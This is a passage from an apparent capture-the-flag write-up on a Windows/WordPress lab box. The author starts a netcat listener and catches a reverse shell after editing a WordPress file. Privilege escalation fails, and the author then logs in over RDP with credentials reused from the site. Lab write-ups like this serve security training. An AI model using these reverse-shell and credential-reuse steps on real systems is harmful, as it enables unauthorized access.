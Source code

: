I start up a listener on my system, and then click the blue **Update File** button back on the WordPress site. As soon as I do I get a shell back!
```
┌──(kali㉿kali)-[~/work/shells]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.100] 49780
SOCKET: Shell has connected!
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro>
```

At this point I tried quite a few things to escalate privileges and was ultimately unsuccessful. Back to the drawing board.

<br>

## RDP

Let's go investigate the RDP port we saw open on the nmap scan.

I fire up `remmina` and try to connect which works. I use the same username and password from the WordPress site and that also works getting me to his desktop:

![](images/retro10.png)
